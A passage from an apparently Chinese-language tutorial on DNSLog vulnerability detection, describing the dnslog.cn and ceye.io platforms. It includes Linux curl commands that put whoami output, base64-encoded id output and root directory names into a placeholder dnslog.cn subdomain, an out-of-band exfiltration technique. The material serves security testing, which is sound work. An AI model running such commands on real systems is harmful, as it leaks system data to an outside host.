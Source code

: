 ```
如果我们想要通过DNSLog平台得到一些系统的信息，那么该怎么办呢？
我们打开 cmd 去 ping 这个子域名，这里我们在子域名前面加上一些前缀，比如%username%
```

![image-20241124155702922](Dnslog漏洞检测/image-20241124155702922.png)	

![image-20241124155650348](Dnslog漏洞检测/image-20241124155650348.png)	

```
在Linux系统下，大家可以使用以下的语句去测试。
#获取变量值：
curl http://`whoami`.xxxxxx.dnslog.cn/
#base64编码输出：
curl http://$(id|base64).xxxxxx.dnslog.cn/
#循环获取文件输出：
for i in $(ls /);do curl
"http://$i.xxxxxx.dnslog.cn/";done;
```

### ceye.io

```
我们在使用dnslog.cn平台时，会发现有两个缺点，一是dnslog.cn平台所使用的解析记录是不持久保存的，一旦我们关闭了该界面，我们的解析记录就会消失，二是dnslog.cn平台只能支持我们去复制粘贴解析记录的结果，没办法大规模解析和提取我们想要的结果，所以，我们现在去使用一个更高级的DNSLog服务解析平台 ceye.io，它是由知道创宇安全公司推出的一款产品，它很好的解决了我们之前提到的两个问题。

ceye.io有以下特点：
一、提供给我们固定子域名，不会变动
二、DNS解析记录会在账号下保存，不会动不动就消失
三、提供在线API，可以使用各种编程语言调用

我们打开主界面点击 Profile 就可以得到我们相应的信息，这里需要我们提前去绑定手机号和邮箱，否则无法使用
```
